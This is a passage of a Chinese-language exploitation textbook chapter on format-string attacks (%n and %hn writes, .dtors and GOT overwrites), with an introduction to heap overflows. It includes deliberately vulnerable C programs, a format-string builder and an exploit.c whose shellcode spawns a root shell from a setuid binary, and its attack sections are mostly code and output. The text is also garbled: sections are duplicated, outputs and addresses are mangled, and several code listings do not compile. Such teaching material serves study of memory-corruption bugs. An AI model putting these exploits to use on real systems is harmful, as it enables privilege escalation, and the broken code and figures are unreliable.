| `g` or `G` | `double` | `float *` | 类似于 `%e` 或 `%f` 情况的带符号浮点数，但根据指定的值和精度，末尾的零和小数点仅在必要时打印 |
| `p` | `void *` | `void *` | 指针地址 |
| `n` | `int *` | `int *` | 到目前为止输出的字符数 |

---

# 第 13 章：本地利用

## 列表 13.24. 格式函数 (printf1.c)

```c
#include <stdio.h>

int main() {
    char *str = "sklyaroff";
    int num = 31337;
    printf("str = %s, addr_str = %p, num = %d, addr_num = %p\n", str, &str, num, &num);
    return 0;
}
```

运行该程序，你将获得以下结果：

```bash
# gcc printf1.c -o printf1
# ./printf1
str = sklyaroff, addr_str = 0xbffff04, num = 31337, addr_num = 0xbffff00
```

首先，`printf()` 函数将参数推入栈中。参数按逆序推入栈的，这对于所有标准 C 函数都是如此。在示例中，首先将 `&num` 地址推入栈中，然后是 `num` 值，接着是 `str` 字符串，然后是 `str` 指针，最后是格式化字符串的地址（见图 13.4）。

| 栈内容 | 地址/值 |
| --- | --- |
| `&num` 地址 | `0xbffff00` |
| `num` 值 | `31337` |
| `str` 字符串的地址（`str` 指针的值） | `0xbffff04` |
| `str` 指针 | `0xbffff04` |
| 格式化字符串的地址 | |
| 栈顶 | |

图 13.4. `printf()` 函数形成的栈帧

`printf()` 函数逐字符解析格式化字符串。如果下一个字符不是百分号（`%`）或反斜杠（`\`），则它会被简单地复制到输出流中。反斜杠意味着控制序列的开始（见表 13.1）；因此，函数会对给定的控制序列执行操作。百分号意味着格式说明符的开始（见表 13.2）。在这种情况下，格式函数从栈中弹出参数，按照格式说明符的指示对其进行转换，然后输出结果。

理解格式函数的操作对于开发格式化利用程序是必要的。

## 13.3.2. 格式化字符串漏洞示例

格式化字符串漏洞产生的原因是程序员在处理它时简单的疏忽或懒惰。创建一个漏洞只需要在格式化字符串中省略一个必要的格式说明符。请考虑列表 13.25 所示的示例。

### 列表 13.25. 一个有漏洞的程序 (printf2.c)

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    int a = 3;
    char *str = "ivan";
    int b = 555;
    printf(argv[1]);
    return 0;
}
```

编译、执行并查看结果：

```bash
# gcc printf2.c -o printf2
# ./printf2 test
```

在示例中，`printf()` 函数没有使用任何格式说明符，简单地接收来自命令行的参数并将其输出到屏幕上。一看，程序运行完美。但看看给它传递一个包含格式说明符的字符串时会发生什么，如下所示：

```bash
./printf2 %x%x%x%x
4000db9040056240109e6ffff
```

函数输出的数字是什么？`printf()` 函数将传递给它的字符串视为格式化字符串，并按照上一节描述的方式对其解析。当 `printf()` 函数接收到的由普通字符组成的字符串时，它简单地将其输出到屏幕；然而，当它遇到格式说明符时，它会从栈中取出一个参数，将其转换为它认为的格式说明符。但由于没有指定参数，函数将从栈顶开始从栈中取出不属于它的值。函数执行机制中的这种奇特性使得检查整个栈成为可能。例如，在栈中找到值 `3` 和 `555`，这些值在调用 `printf()` 函数之前必须存储在栈上。这可以使用 `%d` 格式说明符产生十进制数；一系列说明符允许它们被空格隔开。

```bash
./printf2 %d %d %d %d %d %d %d
1073797552 1074095136 1075120612 1073834852 -1073743320 -1073743320 555 1345139283 3 -1073743322
```

注意，栈中值的顺序和位置在不同的机器上可能不同，因为它们在很大程度上取决于 GCC 的版本和库（如 libc）。指向字符串 `ivan` 的指针也可能存储在栈上。可以通过实验，通过在不同位置使用 `%x %x %x %x %x` 轻松找到它：

```bash
# ./printf2 %x %x %x %x %x %x
40009d0 4005420 4015094 4001d64 bfffffa7 bfffffa8 ivan
```

通过这样，可以从顶部轻松地检查栈。但如果你想查看例如，栈中的百位或千位值呢？在命令行中输入 100 或 1000 个格式将很麻烦。要查看这些，必要的命令可能是：

```bash
# ./printf2 `printf "%50x" 1`
40009d0 4005420 4015094 4001d64 bfffffa7 bfffffa8 an0888481 4048e4 4048e6 4048e8 bffff93 4001e3 bffe1 bffffc5 bffffc2 bffe7
```

在这里，例如，“百”是通过 50 个逗号分隔的 `%x` 说明符指定的。但这并不适用于利用。一种更好、更简单的访问栈中参数的方法是使用直接参数访问说明符。例如，`%n$` 输出第 n 个参数。考虑以下命令：

```c
printf("%2$s: %5$s: %4$x", "A", "B", "C", "D", "E");
```

产生如下输出：

```text
2th: B, 5th: E, 4th: 44
```

第一个格式说明符 `%2$s` 输出函数的第二个参数，即字符 `B`。第二个说明符 `%5$s` 输出第五个参数，即字符 `E`。说明符 `%4$x` 输出十六进制格式的第四个参数（`44` 是 `D` 的 ASCII 码）。同样，可以这样访问栈中的第 50 个值：

```bash
# ./printf2 %50$x
bffffe0
```

以防止 shell 解析它。你可以看到，直接方法实现简单且运行机制良好。如果 `printf2`（列表 13.25）中的 `printf()` 函数有一个格式说明符，例如 `printf("%s", argv[1])`，遍历栈将是不可能的，因为在这种情况下没有格式化字符串漏洞。

## 13.3.3. 使用任意地址

上一节的信息足够查看栈；然而，为了编写利用，必须能够写入必要的栈位置（例如，重写函数地址）。

此任务可以通过 `%n` 格式说明符完成。你应该记住，它将到目前输出的字符数写入参数（见表 13.2）。考虑几个示例来学习此说明符可以实现什么。

列表 13.26 显示了一个输出十字符字符串 `ABCDEFGHI` 并使用 `%n` 说明符将该值写入变量的程序。

### 列表 13.26. 使用 %n 说明符 (printf3.c)

```c
#include <stdio.h>

int main() {
    int n;
    printf("ABCDEFGHI%n\n", &n);
    printf("n=%d\n", n);
    return 0;
}
```

编译、执行并查看结果：

```bash
# gcc printf3.c -o printf3
# ./printf3
ABCDEFGHI
n=10
```

列表 13.27 中的示例演示了如何控制 `%n` 说明符之前的字节数。

### 列表 13.27. 控制 %n 说明符之前的字节数 (printf4.c)

```c
#include <stdio.h>

int main() {
    int n, x = 1;
    printf("ABCDEFGHI%100d%n\n", x, &n);
    printf("n=%d\n", n);
    return 0;
}
```

编译、执行并查看结果：

```bash
# gcc printf4.c -o printf4
# ./printf4
ABCDEFGHI1
n=110
```

在示例中，我使用了 `%100d` 精度参数（小数点后的数字）来获得 100 个字节，它们与 `ABCDEFGHI` 字符串相加并写入变量 `n`。而不是使用精度参数，可以使用 `%100d` 最小宽度；在这种情况下，将输出 99 个空格而不是零。可以通过在字段宽度之前使用 `0` 标志输出零：`%010d`。

现在，学习写入特定地址。列表 13.28 显示了一个用于该目标的练习程序。

### 列表 13.28. 一个有漏洞的程序 (format.c)

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    int a = 1;
    char buf[100];
    int b = 1;
    printf("a = %d (%p)\n", a, &a);
    printf("b = %d (%p)\n", b, &b);
    snprintf(buf, sizeof(buf), buf);
    printf("buf: %s\n", buf);
    printf("a = %d (%p)\n", a, &a);
    printf("b = %d (%p)\n", b, &b);
    return 0;
}
```

运行该程序，你可以看到结果：

```bash
# ./format %x %x %x
a = 1 (0xbffff0c)
b = 1 (0xbffff9c)

buf: [40017098 4003087c 40017098 00000d86]

a = 1 (0xbffff0c)
b = 1 (0xbffff9c)
```

---

## 第三部分：利用

正如你所知，`%n` 会向它从栈中获取的地址（由指针指定）写入数据。因此，要修改的变量地址必须存放在栈中，以便将其作为指针传递给格式化符。运行程序可以发现，该变量的地址为 `0xbffff0c`。此值以以下格式存放在栈中：`\x0c\xff\xff\xbf`。字节序必须反转，因为 x86 架构在内存中以小端格式存储字节，低字节存储在低地址。因此，字符串中的第一个字节是 `\x0c`。

`sprintf()` 函数会将地址放入 `buf[100]` 缓冲区中。然而，仅仅将地址放在栈中是不够的；它还必须在栈中被找到并传递给格式化符。换句话说，你必须遍历栈到达存储 `\x0c\xff\xff\xbf` 地址的位置，随后 `%n` 格式化符将在该地址处写入一个新值。遍历栈最方便的方法是直接使用 `%n$` 说明符来访问它。

将变量的值改为 100。此值可以使用格式化符中的精度（点号后的数字）或最小宽度（数字）来指定。考虑到这一点，准备一个字符串并将其传递给程序：

```bash
# ./format `printf "\x0c\xff\xbf" %.96d%1$n`
a = 1 (0xbffff0ac)
b = 1 (0xbffff9ac)

buf: [3,1709]

a = 1 (0xbffff0ac)
b = 1 (0xbffff9ac)
Segmentation fault (core dumped)
```


如你所见，修改变量值的尝试没有成功，程序崩溃并转储了核心。这是由于设计中的某个根本性缺陷导致的，程序并没有到达栈中存储 `\xc0\xf\xffbf` 地址的位置；导致 `%n` 格式化符将值写入栈中的随机地址，从而导致程序崩溃。发送给漏洞程序的格式字符串设计是正确的。其主要元素如下：

- `printf "\xc0\xf\xff\bf"` - 为了将变量解释为 4 字节而不是普通字符串，使用了包含在反引号中的 `printf()` 壳命令。
- `%.96` - 此精度仅用于指定写入变量的字节数。因为要写入的值是100，所以设置了 `.96` 精度；栈中的前 4 个地址也会被计入。格式化符的类型并不重要，重要的是它是与整数兼容的类型：`d, i, u, x, X`。
- `%n` - 格式化符配合 `NS` 饰符使用。从 1 开始增加饰符的值，直到在栈中找到变量的地址。当找到地址时，`%n` 格式化符将用新值 100 重写变量的值：

```
# /format printf "\xc0\xf\xff\bf" %.96%%2$n

a-1=(0xbffff0ac)

b=1 (0xffffff98c)

Segmentation fault (core dumped)
```

```
# /.format printf "\x00\xfa\xff\xbf"%.96x%3$n

a=1 (0xffffa0c)

b=1 (0xffffff98c)
```

```
buf:

[3\x401709]

```

a=1 (0xffffa0c)
b=1 (0xffffff98c)
Segmentation fault (core dumped)

```
# /.format printf "\x00\xfa\xff\xbf"%.96x%4$n

a=1 (0xffffa0c)

b=1 (0xffffff98c)

Segmentation fault (core dumped)
```

```
# /.format printf "\x00\xfa\xff\xbf"%.96x%5$n

a=1 (0xffffa0c)

b=1 (0xffffff98c)

Segmentation fault (core dumped)
```

```
# /.format printf "\x00\xfa\xff\xbf"%.96x%6$n

a=1 (0xffffa0c)

b=1 (0xffffff98c)
```

```
buf:

[3\x401709]

```

a=100 (0xfffa0c)
b=1 (0xffffff8c)

搞定！在我的机器上，当饰符的值为 6 时，变量被覆盖了；你机器上的值可能会有所不同。同样，变量 `b` 的值被覆盖为 31337。只需将变量 `b` 的地址 `"\x00\xfa\xff\bf"` 放在字符串中。饰符的值不需要重新选择，保持不变：

```
# /.format printf "\x00\xfa\xff\bf" %.31337%x%6$n

```

a=1 (0xffffa0c)
b=1 (0xffffff8c)

```
buf:

[3\x

```

a=1 (0000c

b110xffxffffff0)

```

a=1 (0xffffa0c)

b=31337 (0xff0xffffff8c)

在前面的例子中，变量被小值覆盖了；但在实际利用中，可能会写入数百万字节。例如，根据格式化符的规则，写入100万字节。将典型的地址 `0x8048360`（134,531,504）写入：

```
# /.format printf "%x\xff\xff\bf%%6$n
a=1=(0ffff0c)
b=1=(0ffff8c)
```

```
buf;
[3156]
```

a=134513504 (0ffff0c)

b=1 (0ffff8c)

你可能需要运行程序来更改变量地址。在我的情况下，它移动到了 `0xbffff0c`。我的机器（1.7 GHz Pentium 4）写入该值大约需要5秒；旧款机器可能需要几分钟。此外，写入如此大的值大约需要128 MB内存！实际利用使用了内存使用技术来缩短执行时间。有两种方法：

- 写入偏移量
- 使用 h 饰符

考虑这两种方法。

### 3.4 写入偏移量

偏移写入法的核心是值按字节顺序形成。例如，将值 `0xAABBCCDD` 分四次写入地址 `X`：

- `0x000000DD` 存储在地址 `X`
- `0x000000CC` 存储在地址 `X + 1`
- `0x000000BB` 存储在地址 `X + 2`
- `0x000000AA` 存储在地址 `X + 3`

结果是值以小端格式写入内存：低字节存储在低地址，这是 x86 架构的规则（图 13.5）。使用之前的示例（列表 13.28），将变量 `a`的值改为 `0xf0c67318`。根据该方法，必须执行以下操作：

- `0x0000018` 存储在地址 `0xbffff9fc`
- `0x0000073` 存储在地址 `0xbffff9fd`
- `0x00000c6` 存储在地址 `0xbffff9fe`
- `0x00000f0` 存储在地址 `0xbffff9ff`

地址：

| X | X+1 | X+2 | X+3 |
|---|---|---|---|
| DD | 00 | 00 | 00 |
| CC | | 00 | 00 |
| | | BB | 00 00 |
| | | | AA | 00 00 |

第一次写入：
第二次写入：
第三次写入：
第四次写入：

结果：

| DD | CC | BB | AA | 00 | 00 | 00 |

图 13.5 偏移写入法

现在构建格式字符串并将其链接到漏洞程序：

```
# ./format printf("xec%x9%xbf%xed%xf9%xbf%xee%x9%xbf%xef%x9%xbf%xef\xbf%x8%x6$n%x7$n%x8$8$n%x42$n
a=1 (0xbffff9ec)
b=1 (0xbffff8c)
```

```
buf:
[3\x]
```

a=255429864 (0xbffff0c)

b=1 (0xbffff8c)

你可能需要运行程序来更改变量的地址。在我的情况下，它移动到了 `0xbffff0c`。我的机器（1.7 GHz Pentium 4）写入该值大约需要5秒；旧款机器可能需要几分钟。此外，写入如此大的值大约需要128 MB内存！实际利用使用了内存使用技术来缩短执行时间。有两种方法：

- 写入偏移量
- 使用 h 饰符

考虑这两种方法。

### 3.4 写入偏移量

偏移写入法的核心是值按字节顺序形成。例如，将值 `0xAABBCCDD` 分四次写入地址 `X`：

- `0x000000DD` 存储在地址 `X`
- `0x000000CC` 存储在地址 `X + 1`
- `0x000000BB` 存储在地址 `X + 2`
- `0x000000AA` 存储在地址 `X + 3`

结果是值以小端格式写入内存：低字节存储在低地址，这是 x86 架构的规则（图 13.5）。使用之前的示例（列表 13.28），将变量 `a`的值改为 `0xf0c67318`。根据该方法，必须执行以下操作：

- `0x0000018` 存储在地址 `0xbffff9fc`
- `0x0000073` 存储在地址 `0xbffff9fd`
- `0x00000c6` 存储在地址 `0xbffff9fe`
- `0x00000f0` 存储在地址 `0xbffff9ff`

| X | X+1 | X+2 | X+3 |
|---|---|---|---|
| DD | 00 | 00 | 00 |
| CC | | 00 | 00 |
| | | BB | 00 00 |
| | | | AA | 00 00 |

第一次写入：
第二次写入：
第三次写入：
第四次写入：

结果：

| DD | CC | BB | AA | 00 | 00 | 00 |

图 13.5 偏移写入法

## 第三部分：漏洞利用

`0x804860` 无法使用这种方法写入。因此，格式化字符串利用通常采用第二种方法，使用 h 修饰符，这可以绕过偏移方法的限制。

## 13.5. 使用 h 修饰符

默认情况下，`%hn` 期望一个指向整数的指针，即 4 字节。如果你还记得格式化字符串的构造，如果在使用 `%hn` 规格符配合 h 修饰符，则对应的参数必须被视为短型（short）。因此，使用 `%hn` 规格符可以将指针缩短为 2 字节，使其成为短整型。因此，h 修饰符允许将要写入的数字分两部分写入。单部分的最大大小为 `0xffff` 字节（十进制格式为 65,535 字节）。写入这个数字只需要很少的时间内存。例如，使用 h 修饰符只需执行两次操作：

- 在地址 x 处保存 `0xCCCC`
- 在地址 x + 2 处保存 `0xAABB`

参考列表 12.3，使用 h 修饰符将变量 `b` 的值更改为 `0x804830`。根据该方法，必须执行以下两次操作：

- 在 `0xbfff98c` 处保存 `0x830`
- 在 `0xbfff98fc + 2 = 0xbfff98e` 处保存 `0x804`

然而，必须先写入两个数字较小的那个，因为 `%hn` 规格符会累加之前所有的值；这意味着格式字符串中的值只能增加。因此，首先保存 `0x804 = 2052`，然后保存 `0x8360 = 33632`。

现在构建一个格式字符串传递给漏洞程序：

```bash
/format "\x88\xf9\xff\x8c\xc9\xf9\xff\xbf" .2044x%6$hn%x%7\$hn
```

a=1(0xfffffa0)
b=1(0xfffffc0)

```
buf:
[#xff]
```

```bash
a=1(0xbfffa0)
b=134513504(0xfffffc8)
```

十六进制格式的数字 134513504 是 `0x804860`。

函数执行每个格式字符串时的操作如下：

- `printf "\x88\xf9\xff\x8c\xc9\xf9\xff\xbf"` — 将两个地址都推入栈中。较小值的地址先出现。
- 向地址 `0xbfff98e` 写入 `0x0804 = 2052`。精度由 `.2044%6$hn` 设置——两个地址之间有 8 字节（2052 – 8 = 2044）。

## 第 13 章：本地利用

`%.315180%7$hn` — 向地址 `0xffff98c` 写入 `0x8360 = 33,632`。精度设置为 `.315180`，因为 `33,632 – 2,052 = 31,580`。

到为止呈现的信息已足够编写格式化字符串利用程序。

## 13.6. 自动创建格式字符串

格式化字符串利用必须构建一个格式字符串并将其传递给漏洞应用程序。因此，你需要一个函数根据传递给它的值自动形成格式字符串。该函数为 `fmstr_builder()`。

格式字符串具有以下结构：

```
"[address][address+2%%%n [min value - 8]%x[offset]%$hn. max value - min]%x[offset+1]%$hn"
```

为了构建格式字符串，`fmstr_builder()` 函数仅接受三个参数：

- `addr` — 要写入数值的地址
- `value` — 要写入的值（在这里，这将是 shellcode 的地址）
- `pos` — 漏洞缓冲区起始处的偏移量（以字为单位）

首先，格式字符串必须将地址拆分为单独字节，并以小端格式放置在格式字符串中（最高有效字节位于最低地址）。此任务通过以下语句完成：

```c
byte1 = (addr & 0xff000000) >> 24;
byte2 = (addr & 0x00ff0000) >> 16;
byte3 = (addr & 0x0000ff00) >> 8;
byte4 = (addr & 0x000000ff);
```

然后，必须提取值的高位部分和低位部分。使用这些语句完成：

```c
high = (value & 0xffff0000) >> 16;
low = (value & 0x0000ffff);
```

取决于 `high` 或 `low` 哪部分较小，格式字符串只会增加。

格式字符串在 `buf` 中构建，该函数返回该指针。为了允许调试，我在代码中放置了 `printf("%s", "...")` 以观察值。

要检查 `fmstr_builder()` 函数，在一个名为 `fmstr_builder.c` 的简单程序中使用。它从命令行接收三个参数（地址、值和偏移量），传递给 `fmstr_builder()` 函数并输出格式化后的字符串。编译并执行查看结果：

```bash
gcc fmstr_builder.c -o fmstr_builder
./fmstr_builder bffff98c 804836 6
addr: bffff98c
byte1: 0xbf
byte2: 0xff
byte3: 0xf9
byte4: 0xc
byte4+2: 0xe
value: 33632 (0x80460)
high: 2052 (0x804)
low: 33632 (0x8360)
pos: 6
buf: [buf,2044x%6$hn%31580x%7$hn]
```

命令行标记可以更改值。例如，这里漏洞程序中 `b` 的值可以被覆盖：

```bash
./fmstr_builder bfff9c 804836 6
addr: bfff9c
byte1: 0xbf
byte2: 0xff
byte3: 0xf9
byte4: 0xc
byte4+2: 0xe
value: 134513504 (0x804860)
high: 2052 (0x804)
low: 33632 (0x8360)
pos: 6
buf: [buf,2044x%6$hn%31580x%7$hn]
```

```bash
a=1(0xfffffa0)
b=1(0xfffffc0)
buf: [buf,0x]
a=1(0xbfa0)
b=134513504(0xfffffc8)
```

我运行程序来修正变量 `b` 的地址。

列表 13.29. 构建格式字符串 (fmstr_builder.c)


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char* fmstr_builder(unsigned long addr, unsigned long value, int pos)
{
    char *buf;

    unsigned char byte1, byte2, byte3, byte4;
    unsigned long high, low;
    int length = 100;

    byte1 = (addr & 0xff000000) >> 24;
    byte2 = (addr & 0x00ff0000) >> 16;
    byte3 = (addr & 0x0000ff00) >> 8;
    byte4 = (addr & 0x000000ff);

    high = (value & 0xffff0000) >> 16;
    low = (value & 0x0000ffff);

    fprintf(stderr, "addr: %x\n", addr);
    fprintf(stderr, "byte1: %x\n", byte1);
    fprintf(stderr, "byte2: %x\n", byte2);
    fprintf(stderr, "byte3: %x\n", byte3);
    fprintf(stderr, "byte4: %x\n", byte4);
    fprintf(stderr, "byte4+2: %x\n", byte4 + 2);
    fprintf(stderr, "value: %d\n", value);
    fprintf(stderr, "high: %d\n", high);
    fprintf(stderr, "low: %d\n", low);
    fprintf(stderr, "pos: %d\n", pos);

    if (!buf = (char*)malloc(length*sizeof(char))) {
      perror("buffer overflow failed");
      exit(0);
    }

    memset(buf, 0, sizeof(buf));

    if (high < low) {
      sprintf(buf,
      length,
      "%c%c%c%c"
      "%c%c%c%c"
      "0x%02044x%6$hn"
      "0x%031580x%7$hn");
    } else {
      sprintf(buf,
      length,
      "%c%c%c%c"
      "%c%c%c%c"
      "0x%031580x%6$hn"
      "0x%02044x%7$hn");
    }
    return buf;
}

int main(int argc, char *argv[]) {
    char *buf;

    if (argc != 4) {
        printf("Usage: %s <address> <value> <position>\n", argv[0]);
        exit(0);
    }
    buf = fmstr_builder(strtol(argv[1], NULL, 16),
                        strtol(argv[2], NULL, 16),
                        stol(argv[3]));

    printf(stderr, "buf: %s\n", buf, strlen(buf));

    return 0;
}
```

## 第 13 章：本地漏洞

默认情况下，这两个节都是空的；也就是说，它们不包含函数指针。`GCC` 提供了特殊的属性——构造函数（`constructor`）和析构函数（`destructor`），允许程序员在程序中将函数声明为构造函数或析构函数。在程序中，这些属性设置如下：

```c
static void start(void) __attribute__((constructor));
static void stop(void) __attribute__((destructor));
```

列表 13.30 展示了演示这些属性作用的简单程序源代码。

### 列表 13.30. 使用构造函数和析构函数节 (cd_dtorsc)

```c
#include <stdio.h>

static void start(void) __attribute__((constructor));
static void stop(void) __attribute__((destructor));

int main() {
    printf("This is main()\n");
    return 0;
}

void start(void) {
    printf("This is start()\n");
}

void stop(void) {
    printf("This is stop()\n");
}
```

编译并查看结果：

```bash
# gcc cd_dtors.c -o cd_dtors
# ./cd_dtors
this is start()
this is main()
this is stop()
```

`.dtors` 和 `.ctors` 节的结构相同：它们只是一个 32 位地址的列表，以 `0xffffff` 开始，以 `0x00000000` 结束。

可以使用 `objdump` 工具查看节的内容：

```bash
# objdump -s -j .ctors ./cd_dtors
./cd_dtors: file format elf32-linux

Contents of section .ctors:
8049560 fffff 98840408 00000000
```

```bash
# objdump -s -j .dtors ./cd_dtors
./cd_dtors: file format elf32-linux

Contents of section .dtors:
804956c fffff 98840408 00000000
```

`objdump` 工具呈现节内容的方式有些令人困惑。输出中显示的第一个地址（`.ctors` 的 `0x8049560` 和 `.dtors` 的 `0x804956c`）是该节在内存中的位置地址。其后是节的内容。字节的顺序是反的；也就是说，`.dtors` 节中的 `0x98880048` 地址实际上是 `0x08048498`。

`.ctors` 和 `.dtors` 节最重要的特性是你可以向它们写入内容。通过重写 shellcode 中的地址，当程序执行时，控制权将传递到该地址。然而，只有 `.dtors` 节适用于此目的，因为漏洞在执行之前没有时间更改 `.ctors` 节中的地址。

普通文件中构造函数和析构函数节是空的这没关系，因为你可以用 shellcode 重写最后一个地址 `0x00000000`，执行将将传递到该地址。跳过这 4 个字节是为了避免覆盖 `.dtors` 节的第一个地址 `0xffffffff`；否则漏洞将无法工作。

### 13.3.8. 过程链接与全局偏移表

除了 `.ctors` 和 `.dtors` 节外，每个 ELF 文件还包含两个交错的节：`.plt` 和 `.got`。这些节用于调用共享库函数。`.plt` 节称为过程链接表（`PLT`），存储了指向 `.got` 节中地址的指针。然后，`.plt` 节用于调用共享函数；它不存储地址。所有共享函数的地址都存储在 `.got` 节中，称为全局偏移表（`GOT`）。

`.plt` 只读取一次，所以对我们来说没有意义；然而，`.got` 节是可以写入的。这使得将 `GOT` 中某个函数的地址替换为 shellcode 的地址成为可能，在程序执行期间将控制权传递给它。

使用 `-R` 标志运行 `objdump` 工具可以输出 `GOT` 中共享函数的地址以及函数名称，这使得确定最适合重写的函数成为可能：

```bash
# objdump -R ./format
./format: file format elf32-i386

动态重定位记录

| OFFSET | TYPE | NAME |
| :--- | :--- | :--- |
| 08049624 | R_386 JUMP_SLOT | _dl_start_ |
| 080496d0 | R_386 JUMP_SLOT | _register_frame_info |
| 08049610 | R_386 JUMP_SLOT | _deregister_frame_info |
| 08049614 | R_386 JUMP_SLOT | _libc_start_main |
| 08049618 | R_386 JUMP_SLOT | printf |
| 0804961c | R_386 JUMP_SLOT | _cxa_finalize |
| 08049620 | R_386 JUMP_SLOT | snprintf |
```

例如，漏洞程序中的 `printf()` 地址可以被覆盖。

### 13.3. 格式字符串漏洞

列表 13.31 显示了 `.dtors` 格式字符串漏洞的源代码。使用环境变量将 shellcode 传递到漏洞程序。漏洞缓冲区起始处的偏移（字）以及要写入的地址在漏洞中是硬编码。如果使用来自 `.dtors` 节的地址，则需要加上 4。如果使用 `GOT` 中的地址，则不需要加 4。`fmt_str_creator()` 函数的内容与列表 13.29 中的 `fmt_builder()` 函数相同。

### 列表 13.31. .dtors 节-格式字符串漏洞 (exploit.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char buf[100];

char shellcode[] =
    "\x33\xc0", // xor %ax,
    "\x31\xdb", // xor %ebx, %ebx,
    "\xb0\x17", // movb $0x17, %al,
    "\xcd\x80", // int $0x80
    "\x33\xc0", // xor %ax, %ax,
    "\x31\xdb", // xor %ebx, %ebx,
    "\xb0\x2e", // movb $0x2e, %al,
    "\xcd\x80", // int $0x80
    "\x31\xc0", // xor %eax, %eax,
    "\x68\xsh", // push /sh
    "\x68\xbin", // push /bin
    "\x89\xe3", // mov %esp, %ebx
    "\x50",     // push %ebx
    "\x89\xe6", // mov %esp, %ecx
    "\x99",     // cltd
    "\xb0\x0b", // movb $0x0b, %al,
    "\xcd\x80"; // int $0x80

char *fmt_str_creator(long addr, long value, int pos) {
...
    return buf;
}

int main() {
    char *env[] = {shellcode, NULL};
    char buff[100];

    long RET;
    long ADDRESS = 0x80495f8 + 4;
    int ALIGN = 6;

    RET = 0xc000000 - strlen(shellcode) - strlen("/format") - 6;

    printf(buffer, "%s", fmt_str_creator(ADDRESS, ALIGN));

    execle("/format", "format", buff, env);
}
```

编译、运行并检查结果：

```bash
# gcc format.c -o format
# chmod ug+s ../format
# ls -la
-rwxr-sr-x 2 root root 13913 Apr 29 19:29 ./format
# objdump -s -j .dtors ./format
./format: file format elf32-linux

Contents of section .dtors:
80495f8 fffffff 00000000
# gcc expl_frm.c -o expl_frm
# su nobody
sh-2.04 $ id
uid=99 (nobody) gid=99 (nobody) groups=99 (nobody)
sh-2.04 ./expl_frm
# /format ../builder bfffff9c 08048360 6'
addr: 0x80495ac
byte1: 0xb8
byte2: 0x4
byte3: 0x95
byte4: 0xfc
byte4+: 0xfe
value: -13741878 (0xbffffca)
high: 49151 (0xbffff)
low: 65482 (0xffca)
pos: 6
a-1 = (0xbfffffe6)
b-1 = (0xbffffdec)
```

本节中所有程序的源代码可以在附带光盘的 `/PART III/Chapter 13/13.3` 目录下找到。

## 第 13 章：本地漏洞

### 13.4. 堆溢出

基于堆溢出错误开发漏洞技术的作者是一个使用 `Solar Designer` 标识的俄罗斯黑客。2000年7月25日，他发布了 `Bugraq`，介绍了他在 `Netscape` 浏览器中发现的堆缓冲区溢出错误，并演示了该错误的漏洞利用。有关漏洞和漏洞利用的信息可以在 `SecurityFocus` 网站 (`http://www.securityfocus.com/`) 找到。

公平地说，1999年1月，一位名为 `w000` 的黑客 `Matt Conover` 发表了一篇关于堆缓冲区溢出主题的文章（`http://www.000.org/articles/heapopt.txt`）。但 `Conover` 只描述了原始技术，类似于 13.2 节中考虑的覆盖函数指针的技术。`Solar Designer` 发现了一种使用内部内存分配结构覆盖任意区域的更好技术。`Solar Designer` 的技术现在用于所有基于堆溢出的严重漏洞。

### 13.4.1. 标准堆函数

有四个库函数用于在堆中动态分配和释放内存。以下是它们的原型和描述。

- `malloc(size_t size)`：函数分配 `size` 字节内存并返回指针，如果无法分配则返回 `NULL`。分配的内存未初始化。
- `calloc(size_t nm, size_t size)`：函数为每个 `nm` 对象分配 `size` 字节内存并返回分配指针，如果无法分配则返回 `NULL`。分配的内存被置零。
- `realloc(void *ptr, size_t size)`：函数更改 `ptr` 指向的动态内存的大小（取决于参数的大小增加或减少），并返回新内存块的指针。新大小由参数指定。新增的内存未初始化。如果 `ptr` 为 `NULL`，调用结果等同于调用 `malloc(size)`。如果 `size` 为 0，调用结果等同于调用 `free(ptr)`。除了 `ptr` 指针为 0 外，它必须指向使用 `malloc()`、`calloc()` 或 `realloc()` 分配的内存。增大大小可能会将其移动到虚拟内存中的另一个位置，那里有足够的空闲地址空间。如果请求失败或新大小为 0，函数返回 `NULL`，旧内存块保持不变。
- `free(void *ptr)`：函数释放之前使用 `malloc()`、`calloc()` 或 `realloc()` 函数分配的内存区域。通过 `ptr` 参数传递内存区域指针。

### 13.4.2. 漏洞示例

考虑一个简单的易漏洞程序示例（列表 13.32）。

### 列表 13.32. 一个易漏洞程序 (heap_vuln.c)

```c
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char *a;
    char *b;

    a = malloc(200);
    b = malloc(64);

    printf("a = %p, b = %p, a = %d\n", a, b, b);

    strcpy(a, argv[1]);

    printf("a = %s (%d)\n", a, strlen(a));
    printf("b = %s (%d)\n", b, strlen(b));

    free(a);
    free(b);

    return 0;
}
```

编译该程序，运行它并观察结果：

```bash
# gcc heap_vuln.c -o heap_vuln
./heap_vuln perl -e 'print "A\x210*'
a = 0x80497b8, b = 0x80498888, b - a = 208
```

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`


# 堆缓冲区溢出

该程序在堆中分配了两个缓冲区；第一个是 200 字节，另一个是 64 字节。`strcpy()` 函数不检查目标缓冲区的大小，这意味着任何长度的字符串都可以写入第一个缓冲区。

例如，从命令行向该易漏洞程序传递了一个 210 个字符的字符串。结果是第一个缓冲区溢出，程序异常终止。但这里有一个与栈缓冲区和 BSS 缓冲区溢出错误（分别为第 13.1 节和第 13.2 节）不同的之处。当程序崩溃时，第一个溢出缓冲区的内容为 210 字节，但只有 2 字节（两个 A 字符）写入了第二个缓冲区。程序还显示了堆中的缓冲区地址以及它们之间的差值，即 208 字节。这导致人们怀疑在堆的两个缓冲区之间分配了 8 字节的额外不可见内存。事实确实如此。`malloc()` 函数分配的内存总是比请求的多。如果在堆中请求 0 字节——`malloc(0)`——该函数将至少分配 8 字节。堆内存的分配和释放遵循一种复杂的算法，除了缓冲区本身，堆中还保存了一些必要的服务信息。Solar Designer 开发的利用技术是基于覆盖堆中的这些服务信息的。

## 13.4.3 Doug Lea 算法

